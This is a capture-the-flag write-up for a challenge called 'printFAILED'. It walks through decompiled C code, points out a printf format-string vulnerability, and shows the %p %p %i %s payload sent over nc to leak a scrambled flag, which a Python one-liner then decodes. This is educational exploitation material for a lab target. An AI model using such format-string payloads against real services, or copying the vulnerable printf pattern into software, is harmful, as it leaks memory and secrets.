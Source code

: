 # printFAILED

This challenge provided a binary file named ```printFAILED```. We can run it and it asks us the scrambled flag.
So we must provide a scrambled version of the flag to obtain the flag. To make things just a little more complicated, the flag is obtained from a file.

Opening the file in ghidra shows a simple binary with a ```main``` and a ```scramble``` functions. The scramble is very simple, consisting in adding 1 to each char.

```
void scramble(int param_1)

{
  int idx;
  
  idx = 0x0;
  while (idx < param_1) {
    flag[idx] = flag[idx] + '\x01';
    idx = idx + 0x1;
  }
  return;
}

```

The main function is also simple, and after some renaming and retyping it becomes even better:
```
int main(void)

{
  int result;
  FILE *fin;
  
  fin = fopen("flag.txt","r");
  fgets(flag,0x28,fin);
  scramble(0x27);
  puts("can you guess the scrambled flag?");
  fflush(stdout);
  fgets(guess,0x28,stdin);
  puts("you guessed: ");
  printf(guess,main,scramble,(ulong)FLAG_LEN,flag); // <--- printf Format Vuln here
  result = strcmp(guess,flag);
  if (result == 0x0) {
    puts("nice guess!");
  }
  else {
    puts("wrong");
  }
  return 0x0;
}
```

The command was added for the writeup. It explores the fact that ```printf``` first argument is the string format and not the content to be printed.
If this argument is controlled by an attacker, the attacker can has a wide range of techniques to read and write memory.

Considering the function as presented, it has 5 arguments: the format (user controlled), the main function, the scramble function, the flag length and then the scrambled flag. 

```
printf(guess,main,scramble,FLAG_LEN,flag);
```

The vulnerability allows a multitude of attacks, lets stick to the challenge. 
Providing ```%p %p %i %s``` will print 2 pointers, the length, and then the scrambled flag. If the scrambled flag has no ```0x00``` chars, it will print the entire flag.

The result is:
```
nc printf.sdc.tf 1337
can you guess the scrambled flag?
%p %p %i %s
you guessed:
0x555de903b86f 0x555de903b82a 40 tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~
wrong
```

We failed to provide the correct content, but we have the flag. A second try will yeld a different result:
```
can you guess the scrambled flag?
tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~
you guessed:
tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~nice guess!
```

A python oneliner will get us the flag:
```
print(''.join([chr(x-1) for x in b'tedug|E1ou`c4`5`g52mvs4`2jl4`uI2T`D1e4~']))
sdctf{D0nt_b3_4_f41lur3_1ik3_tH1S_C0d3}
```

